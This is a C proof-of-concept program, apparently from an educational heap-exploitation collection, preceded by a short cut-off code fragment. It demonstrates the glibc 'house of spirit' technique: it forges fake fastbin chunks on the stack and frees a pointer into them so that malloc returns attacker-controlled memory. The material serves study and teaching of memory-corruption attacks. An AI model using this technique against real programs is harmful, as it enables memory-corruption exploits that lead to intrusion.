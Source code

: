 ```c

  victim = malloc(0x30);
  printf("%p\n", victim);

  return 0;
}
```

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	fprintf(stderr, "This file demonstrates the house of spirit attack.\n");

	fprintf(stderr, "Calling malloc() once so that it sets up its memory.\n");
	malloc(1);

	fprintf(stderr, "We will now overwrite a pointer to point to a fake 'fastbin' region.\n");
	unsigned long long *a;
	// This has nothing to do with fastbinsY (do not be fooled by the 10) - fake_chunks is just a piece of memory to fulfil allocations (pointed to from fastbinsY)
	unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

	fprintf(stderr, "This region (memory of length: %lu) contains two chunks. The first starts at %p and the second at %p.\n", sizeof(fake_chunks), &fake_chunks[1], &fake_chunks[7]);

	fprintf(stderr, "This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.\n");
	fprintf(stderr, "... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. \n");
	fake_chunks[1] = 0x40; // this is the size

	fprintf(stderr, "The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.\n");
        // fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
	fake_chunks[9] = 0x1234; // nextsize

	fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
	fprintf(stderr, "... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");
	a = &fake_chunks[2];

	fprintf(stderr, "Freeing the overwritten pointer.\n");
	free(a);

	fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
	fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```
